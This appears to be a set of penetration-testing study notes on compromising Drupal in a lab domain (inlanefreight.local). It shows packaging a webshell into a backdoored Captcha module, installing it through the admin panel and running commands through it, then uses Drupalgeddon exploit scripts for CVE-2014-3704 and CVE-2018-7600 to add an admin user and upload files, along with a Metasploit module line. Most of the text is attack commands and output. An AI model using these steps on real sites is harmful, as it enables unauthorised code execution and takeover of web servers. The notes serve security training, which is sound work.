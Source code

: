 
`copy files and archive the folder`
```shell-session
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

Assuming we have administrative access to the website, click on `Manage` and then `Extend` on the sidebar. Next, click on the `+ Install new module` button, and we will be taken to the install page, such as `http://drupal.inlanefreight.local/admin/modules/install` Browse to the backdoored Captcha archive and click `Install`.


Once the installation succeeds, browse to `/modules/captcha/shell.php` to execute commands.


`test webshell`
```shell-session
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```
# Leveraging Known Vulnerabilities:

## CVEs
- [CVE-2014-3704](https://www.drupal.org/SA-CORE-2014-005), known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.
    
- [CVE-2018-7600](https://www.drupal.org/sa-core-2018-002), also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.
    
- [CVE-2018-7602](https://cvedetails.com/cve/CVE-2018-7602/), also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

`duplegon abuse to add user`
```shell-session
$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

`metasploit`
```
use drupal_druppagedon
```

## druppagedon2

https://www.exploit-db.com/exploits/44448
```shell-session
python3 drupalgeddon2.py 

################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/hello.txt
```
We can check quickly with `cURL` and see that the `hello.txt` file was indeed uploaded.
